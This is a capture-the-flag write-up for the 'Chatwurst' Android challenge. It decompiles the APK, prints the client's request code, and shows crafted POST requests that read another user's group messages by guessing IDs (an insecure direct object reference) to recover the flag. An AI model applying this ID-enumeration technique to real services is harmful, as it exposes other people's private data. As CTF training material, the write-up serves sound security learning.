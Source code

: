 # Chatwurst

Start the challenge by opening up the chatwurst.apk in jadx:
`jadx-gui`

After navigating around the files, you'll see under Source code/com/sinclustoapps.chat there's a file:
`ChatwurstClient`

This file contains the POST requests that the application uses to make users, login, make groups and join groups

```java
public static void createUser(Context context, String str, String str2, Listener listener) {
        HashMap hashMap = new HashMap();
        hashMap.put("username", str);
        hashMap.put("password", str2);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_user", new JSONObject(hashMap), listener);
    }

    public static void loginUser(Context context, String str, String str2, Listener listener) {
        HashMap hashMap = new HashMap();
        hashMap.put("username", str);
        hashMap.put("password", str2);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/login", new JSONObject(hashMap), listener);
    }

    public static void createGroup(Context context, String str, String str2, ArrayList<String> arrayList, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        int i = 0;
        while (i < 10 && i < arrayList.size()) {
            hashMap.put("user_" + Integer.toString(i), arrayList.get(i));
            i++;
        }
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_group", new JSONObject(hashMap), listener);
    }

    public static void createMessage(Context context, String str, String str2, int i, String str3, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("group_id", Integer.valueOf(i));
        hashMap.put("content", str3);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_message", new JSONObject(hashMap), listener);
    }

    public static void getGroups(Context context, String str, String str2, int i, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("user_id", Integer.valueOf(i));
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/get_groups", new JSONObject(hashMap), listener);
    }

    public static void getMessages(Context context, String str, String str2, int i, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("group_id", Integer.valueOf(i));
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/get_messages", new JSONObject(hashMap), listener);  
}
```

The functions we are interested in with this app are the getMessages and getGroups functions since we want to be able to read the messages that are in a certain group.

First we must create a user so that we are able to submit requests with our credentials.
In the createUser function, it sends a POST request to: http://chatwurst.ctf-league.osusec.org/create_user
The content in the request consists of a username and password, so I created a POST request in https://reqbin.com 
```
URL: http://chatwurst.ctf-league.osusec.org/create_user
Content: {"username":"balll", "password":"test"}

Next we see that the getGroups function uses a username and password hashmap as a credential then a user_id to get the groups that the user is affiliated with. I assumed the user_id for the FizzbuzzMcFlurry account was a low number so I chose 1 as the user_id:
```
URL: http://chatwurst.ctf-league.osusec.org/get_groups
Content: {"credential":{"username":"ball","password":"test"}, "user_id": 1}
```

After recieving the group list of the user, I found there was a group with a bunch of users: Group 9
So the next step was to read the messages from the group. That's where the getMessages function comes along.
The getMessages function sends a POST request to http://chatwurst.ctf-league.osusec.org/get_messages with the credentials and a group id. So I created another POST request with this info.

```
URL: http://chatwurst.ctf-league.osusec.org/get_messages
Content: {"credential":{"username":"ball","password":"test"}, "group_id": 9}
```
This returned a list of all the messages in the group. Inside this message was the flag.

osu{cH4TWUrst_m0RE_L1KE_wUrSt_ch47}
